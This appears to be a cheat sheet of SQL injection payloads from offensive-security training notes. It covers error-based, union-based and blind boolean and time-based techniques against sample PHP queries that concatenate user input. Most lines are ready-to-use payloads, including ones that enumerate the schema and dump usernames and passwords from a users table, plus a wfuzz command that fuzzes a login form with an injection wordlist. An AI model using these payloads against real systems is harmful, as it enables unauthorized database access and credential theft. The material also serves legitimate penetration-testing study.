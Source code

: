 ### Identification - Error Based Payloads

```
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
```
offsec' OR 1=1 -- //
' or 1=1 in (select @@version) -- // union in mssql
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //

### Union Based Payloads

- The injected UNION query has to include the same number of columns as the original query.
- The data types need to be compatible between each column.
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

- first count number of columns
' ORDER BY 1-- //
- Increasing the column value by one each time, we'll discover that the table has five columns, since ordering by column six returns an error.
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //

### Blind SQL Injection

- blind SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.
- Test for boolean based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
- Time based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

Wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u <TARGET_URL>
